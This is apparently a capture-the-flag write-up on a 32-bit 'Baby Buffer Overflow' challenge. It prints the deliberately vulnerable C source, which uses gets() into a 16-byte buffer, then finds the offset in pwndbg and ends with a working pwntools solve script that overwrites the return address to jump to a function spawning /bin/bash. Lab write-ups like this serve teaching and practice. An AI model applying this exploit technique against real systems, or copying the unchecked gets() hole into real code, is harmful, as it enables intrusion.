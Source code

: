 ```yaml
---
title: Baby Buffer Overflow - 32bit
author: saturn
pubDate: 2024-10-17
toc: true
share: true
ogImage: true
---
```


# Baby Buffer Overflow - 32bit 
![](../../assets/dom-images/logo.jpg)

## Description

Author: @aenygma

Can you command this program to where it cannot go?
To get the flag, you must somehow take control of its excecution.
Is it even possible?

Press the Start button on the top-right to begin this challenge.
Attachments: 

`babybufov`, `babybufov.c`

## Solution

We're given a source file, `babybufov.c`, containing this:

```c
#include <stdio.h>
#include <unistd.h>

//gcc -fno-pie -no-pie -Wno-implicit-function-declaration -fno-stack-protector -m32 babybufov.c -o babybufov

void target(){
    puts("Jackpot!");
    char* executable="/bin/bash";
    char* argv[]={executable, NULL};
    execve(executable,argv,NULL);
}

int vuln(){
    char buf[16];
    gets(buf);
    return 0;
}

int main(){
    setbuf(stdin,NULL);
    setbuf(stdout,NULL);
    puts("Gimme some data!");
    fflush(stdout);
    vuln();
    puts("Failed... :(");
}
```

So, we can see that this is a ret2win, so this is trivial! Let's just get the addresses we need in `gdb`, and then we have an easy flag!

```bash
pwndbg> cyclic 120
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaab
pwndbg> r
Starting program: /home/strn/babybufov
zsh:1: no such file or directory: /home/strn/babybufov
During startup program exited with code 127.
pwndbg>
```

... the fuck?


Turns out, this is not an issue of the executables location. We can run `file` against it with no problem, but executing the file somehow makes it nonexistent again? 

Turns out, this is a problem of the libraries of the executable. We can use `ldd` to check which libraries it tries to link to.
```
$ ldd babybufov
	linux-gate.so.1 (0xeefe9000)
	libc.musl-x86.so.1 => not found
```

Alright, so we have the linux-gate.so.1, but we're missing MUSL. Installing MUSL via `sudo pacman -S musl` doesn't fix our problem, so what we have to do is install MUSL via the AUR via `paru -S aur/i386-musl`.

Let's go back to GDB.

```bash
$  gdb-pwndbg ./babybufov
pwndbg> cyclic 120
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaab
pwndbg> r
Gimme some data!
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaab

Program received signal SIGSEGV, Segmentation fault.
0x61616168 in ?? ()
# SNIP
00:0000│ esp 0xffffd0d0 ◂— 'iaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaab'
```

We can get the offset by using the `cyclic` function.

```bash
pwndbg> cyclic -l iaaa
Finding cyclic pattern of 4 bytes: b'iaaa' (hex: 0x69616161)
Found at offset 32
```

Because this is a 32-bit binary, we have to subtract 4 bytes from what we get here, so the offset is *actually* 28. 

Here's the solve script:

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwn import *

exe = context.binary = ELF('./babybufov')

exe = context.binary

payload = b'A' * 28
payload += p32(0x8049006) # objdump -d ./babybufov | rg "ret"
payload += p32(exe.symbols['target'])


io = process()

io.sendline(payload)

io.interactive()
```


---
**Dombusters**: _Writeup written by saturn_
